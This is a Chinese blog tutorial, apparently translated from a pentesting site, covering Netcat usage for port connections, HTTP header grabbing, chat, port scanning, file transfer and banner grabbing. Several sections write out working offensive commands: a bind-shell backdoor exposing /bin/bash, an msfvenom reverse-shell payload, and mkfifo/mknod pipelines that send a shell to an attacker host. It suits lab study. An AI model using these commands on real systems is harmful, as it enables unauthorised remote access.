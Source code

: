 ```yaml
---
title: Netcat 综合指南
date: 2019-08-31T18:17:52+08:00
author: 2hanx
layout: post
categories:
  - Tech
tags:
  - software
---
```

### 介绍 [^1]

### 特点

  * 充当简单的TCP / UDP / SCTP / SSL客户端，用于与Web服务器，Telnet服务器，邮件服务器和其他TCP / IP网络服务进行交互。通常，理解服务（解决问题，发现安全漏洞或测试自定义命令）的最佳方法是使用Netcat与其进行交互，可以控制发送的每个字符并查看未经过滤的原始响应
  * 将TCP / UDP / SCTP流量重定向或代理到其他端口或主机。这可以使用简单的重定向（发送到端口的所有内容自动在您预先指定的其他位置中继）或通过充当SOCKS或HTTP代理来完成，以便客户端指定自己的目标。在客户端模式下，Netcat可以通过匿名链接或目标链接到目标认证代理
  * 加密与SSL的通信，并通过IPv4或IPv6传输
  * 充当执行系统命令的网络网关，I / O重定向到网络
  * 充当连接代理，允许两个（或更多）客户端通过第三个（代理）服务器相互连接，这使得隐藏在NAT网关后面的多台机器能够相互通信，并且还可以实现简单的Netcat聊天模式

### 查看帮助

  * `nc -h`

### 连接到服务器的21端口

  * `nc 192.168.1.12 21`

### 获取 HTTP 头信息

  * 使用netcat来获取有关任何Web服务器的信息。让我们回到之前连接的服务器。  
    它还在端口80上运行HTTP服务。因此，我们使用netcat连接到HTTP服务，就像我们之前做的那样。  
    现在连接到服务器后，我们使用的选项将为我们提供标头以及在远程服务器上运行的HTTP服务的源代码。
  * `nc 192.168.1.12 80`

### 通信

  * Netcat 还可用于在两个用户之间进行聊天。我们需要在聊天之前建立连接。  
    要做到这一点，我们将需要两个设备。一个人将扮演发起者的角色，一个人将成为开始对话的倾听者，因此一旦建立了连接，就可以从两端进行通信
  * `nc -lvvp 4444` [^2]
  * `nc 192.168.50.220 4444`

### 创建后门

  * `nc -l -p 2222 -e /bin/bash` [^3]
  * `nc 192.168.1.35 2222`

### 详细模式 [^4]

  * `nc 192.168.1.6 21 -v`

### 文件保存

  * `nc 192.168.1.6 21 -v -o /root/output.txt`

### 端口扫描

  * TCP Scan 
      * `nc -v -n -z -w 2 192.168.1.6 21-1100` [^5]
  * TCP Delay Scan 
      * `nc -z -v -i 10 192.168.1.6 21-80`
  * UDP Scan 
      * `nc -vzu 192.168.1.6 80-90`

### 反向 TCP shell [^6]

  * `msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.35 lport=2124 -f exe > /root/Desktop/1.exe`
  * `nc -lvvp 2124`

### 随机端口

  * `nc -lv -r`

### 文件传输 [^7]

```bash
#target host
nc -v -w 30 -p 8888 -l &lt; C:\netcat\output.txt
#kali
nc -v -w 2 192.168.1.4 8888 &gt; output.txt
```

### 反向 Netcat Shell

```bash
#kali
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.35 lport=6666 R 
nc -lvp 6666
#将生成的命令在target host上执行
mkfilo /tmp/hcakruy; nc 192.168.1.35 6666 0&lt;/tmp/hcakruy | /bin/sh &gt; /tmp/hcakruy 2&gt;&1; rm /tmp/hcakruy
```

```bash
#target host
mknod /tmp/backpipe p
/bin/sh 0&lt;/tmp/backpipe | nc 192.168.1.35 443 1&gt;/tmp/backpipe
#kali
nc -lvp 443 
```

### 获取 Banner 信息

  * `nc -v 192.168.1.2 22`

[原文](https://www.hackingarticles.in/comprehensive-guide-on-netcat/)

---
[^1]: `netcat`或`nc`是一种实用工具，它使用TCP和UDP连接在网络中进行读写
[^2]: `-l` 监听模式、`-vv` 可以使用一个，多一个更详细、`-p`端口
[^3]: 这将在系统上打开一个侦听器，它将命令shell或Linux bash shell传递给连接系统
[^4]: 在netcat中，Verbose是一种可以使用`[-v]`参数启动的模式。现在详细模式生成扩展信息。基本上使用netcat连接到服务器两次，以查看正常模式和详细模式之间的区别，当我们将`[-v]`添加到netcat命令时，它会显示有关连接到服务器时其性能的进程的信息
[^5]: `[-v]`：表示详细模式、`[-n]`：表示仅数字的IP地址、`[-z]`：表示零-I / O模式[用于扫描]、`[-w]`：表示连接超时和最终网络读取
[^6]: 使用`msfvenom`和`netcat`的组合来利用系统。我们将使用`msfvenom`创建有效负载和`netcat`来监听会话
[^7]: 场景：将文件从Windows系统传输到 Linux系统